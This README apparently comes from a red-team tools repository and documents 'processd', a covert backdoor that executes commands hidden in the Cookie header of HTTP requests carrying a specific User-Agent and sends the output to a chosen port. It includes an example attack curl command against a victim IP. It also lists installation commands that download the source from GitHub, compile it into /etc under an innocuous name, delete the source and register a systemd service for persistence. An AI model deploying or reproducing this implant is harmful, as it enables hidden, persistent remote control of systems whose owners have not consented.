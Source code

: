 ## Processd RCE

Creates a process called processd that runs a program that listens for commands hidden in the headers of an HTTP request:
- Cookie: The command to run
- Upgrade-Insecure_Requests: The local port to send command results to 

User Agent must match "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

Installation:
```
sudo wget "https://raw.githubusercontent.com/JackDunfey/Red-Team-Tools/refs/heads/main/processd/processd.c" -O /tmp/processd.c
sudo gcc /tmp/processd.c -o /etc/processd
sudo rm /tmp/processd.c
chmod 500 /etc/processd
sudo wget "https://raw.githubusercontent.com/JackDunfey/Red-Team-Tools/refs/heads/main/processd/processd.service" -O "/etc/systemd/system/processd.service"
```
